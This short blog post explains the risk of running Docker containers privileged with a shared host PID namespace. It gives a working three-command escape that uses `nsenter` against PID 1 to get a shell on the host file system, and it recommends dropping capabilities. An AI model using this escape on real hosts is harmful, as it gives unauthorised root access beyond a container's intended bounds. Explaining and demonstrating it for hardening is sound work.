 ```yaml
---
title: "#jailbreak - Escaping the container"
layout: post
date: 2019-05-25 15:00
headerImage: false
tag:
- Docker
- Privileged containers
- Root
- jailbreak
star: false
category: blog
author: robertnorthard
description: jailbreak - escaping the container
---
```


It's common knowledge that Docker containers should not be be run in privileged mode with a shared host PID namespace, but why? In this case a malicious actor, assuming they have access to the container via exec or a vulnerable application, could gain root access to the host using a program like `nsenter`. `nsenter` enables you to execute a process with the context of another processes, for example PID 1.

This example will help provide a concrete example of escaping a container, enabling you to access the hosts file system and execute shell commands.

````

$ docker-machine start default

$ docker run --privileged --rm --pid=host -ti ubuntu 

// This gives you access to the hosts file system
$ nsenter --target 1 --mount sh 

````

This one of many ways you can escape a container. When running containers you will want to drop other [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) such as the ability to reboot a host from inside the container.

~ Robert
